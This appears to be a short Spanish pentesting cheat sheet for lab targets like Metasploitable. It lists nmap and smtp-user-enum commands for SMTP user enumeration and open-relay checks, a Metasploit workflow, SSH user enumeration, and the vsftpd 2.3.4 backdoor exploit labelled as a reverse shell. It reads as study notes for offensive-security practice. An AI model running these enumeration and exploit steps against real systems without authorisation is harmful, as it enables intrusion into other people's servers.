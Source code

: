 [netcat](#netcat)

```sh
sudo nmap -n -PN -p 25 --script smtp-enum-users.nse --script-args userdb=users.txt {TARGET}

# Si no funciona:
apt install -y smtp-user-enum
smtp-user-enum -M VRFY -U users.txt -t {TARGET}
```

Open relay

```sh
sudo nmap -n -PN -p 25 --script smtp-open-relay {TARGET}
```

## Metasploitable

```sh
msfconsole
msf6 > 
search *
use {result}
info
show options
set VAR {valor}
exploit # '-O' para exportar
```

### Enumeración de usuarios por ssh

```sh
sudo msfconsole
msf6 > 
search ssh enum
use auxiliary/scanner/ssh/ssh_enumusers # <==> use {numero}
info
show options
set RHOST {TARGET}
set USER_FILE {wordlists}
exploit
```

### ftp scan

```sh
# Scan
msf6 > 
use auxiliary/scanner/ftp/ftp_version

#exploit reverse shell
use exploit/unix/ftp/vsftpd_234_backdoor
```

### SMTP
